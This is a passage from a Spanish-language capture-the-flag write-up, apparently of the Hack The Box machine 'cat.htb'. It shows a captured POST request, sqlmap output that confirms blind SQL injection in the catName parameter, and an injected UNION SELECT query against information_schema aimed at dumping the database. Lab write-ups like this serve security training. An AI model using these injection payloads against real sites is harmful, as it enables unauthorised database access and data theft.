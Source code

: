 ```php
            echo "The cat has been accepted and added successfully.";
        } else {
            echo "Error: Cat ID or Cat Name not provided.";
        }
    } else {
        header("Location: /");
        exit();
    }
} else {
    echo "Access denied.";
}
?>

```


Preparamos un Request POST para dumpear la base de datos:
```python
POST /accept_cat.php HTTP/1.1
Host: cat.htb
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=dc19d9vca314ihdq9g6h

catId=1&catName=test
```

Sqlmap nos confirma que el campo es vulnerable

```sql
sqlmap identified the following injection point(s) with a total of 126 HTTP(s) requests:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catId=1&catName=test'||(SELECT 0x6b575974 WHERE 9070=9070 AND 3453=3453)||'
---
[13:46:48] [INFO] testing MySQL
[13:46:48] [WARNING] the back-end DBMS is not MySQL
[13:46:48] [CRITICAL] sqlmap was not able to fingerprint the back-end database management system
[13:46:48] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 84 times

[*] ending @ 13:46:48 /2025-02-07/

```

Con esta solicitud mandamos esta query SQL al servidor
```sql 
INSERT INTO accepted_cats (name) VALUES ('TEST' UNION ALL SELECT NULL, table_name FROM information_schema.tables WHERE 1=1 AND '1'='1')'
```

Query valida:
![[Pasted image 20250207135540.png]]
